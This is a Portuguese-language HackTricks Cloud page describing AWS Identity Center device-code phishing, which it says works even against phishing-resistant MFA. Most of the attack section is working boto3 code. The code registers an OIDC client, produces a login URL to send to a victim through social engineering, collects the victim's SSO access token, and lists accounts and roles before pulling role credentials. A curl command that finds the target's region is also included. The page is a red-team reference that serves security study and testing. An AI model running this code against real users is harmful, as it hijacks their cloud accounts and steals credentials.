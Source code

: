 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Phishing de Código de Dispositivo AWS

Proposto inicialmente em [**este post do blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), é possível enviar um **link** para um usuário usando AWS SSO que, se o **usuário aceitar**, o atacante poderá obter um **token para se passar pelo usuário** e acessar todos os papéis que o usuário pode acessar no **Identity Center**.

Para realizar esse ataque, os requisitos são:

* A vítima precisa usar o **Identity Center**
* O atacante deve conhecer o **subdomínio** usado pela vítima `<victimsub>.awsapps.com/start`

Com apenas as informações anteriores, o **atacante poderá enviar um link para o usuário** que, se **aceito**, concederá ao **atacante acesso à conta do usuário AWS**.

### Ataque

1. **Encontrando o subdomínio**

O primeiro passo do atacante é descobrir o subdomínio que a empresa da vítima está usando em seu Identity Center. Isso pode ser feito via **OSINT** ou **adivinhação + BF**, já que a maioria das empresas usará seu nome ou uma variação de seu nome aqui.

Com essa informação, é possível obter a região onde o Identity Center foi configurado:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Gere o link para a vítima & Envie-o**

Execute o seguinte código para gerar um link de login do AWS SSO para que a vítima possa se autenticar.\
Para a demonstração, execute este código em um console Python e não saia dele, pois mais tarde você precisará de alguns objetos para obter o token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envie o link gerado para a vítima usando suas incríveis habilidades de engenharia social!

3. **Aguarde até que a vítima o aceite**

Se a vítima já estava **conectada no AWS**, ela só precisará aceitar a concessão das permissões; se não estava, precisará **fazer login e então aceitar a concessão das permissões**.\
Assim é como o prompt aparece atualmente:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtenha o token de acesso SSO**

Se a vítima aceitou o prompt, execute este código para **gerar um token SSO se passando pelo usuário**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
O token de acesso SSO é **válido por 8h**.

5. **Imitar o usuário**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing do MFA inphishável

É interessante saber que o ataque anterior **funciona mesmo se um "MFA inphishável" (webAuth) estiver sendo usado**. Isso ocorre porque o **fluxo de trabalho anterior nunca sai do domínio OAuth utilizado**. Diferente de outros ataques de phishing onde o usuário precisa substituir o domínio de login, no caso, o fluxo de código do dispositivo é preparado para que um **código seja conhecido por um dispositivo** e o usuário possa fazer login mesmo em uma máquina diferente. Se o prompt for aceito, o dispositivo, apenas por **conhecer o código inicial**, será capaz de **recuperar credenciais** para o usuário.

Para mais informações sobre isso [**ver este post**](https://mjg59.dreamwidth.org/62175.html).

### Ferramentas Automáticas

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Referências

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
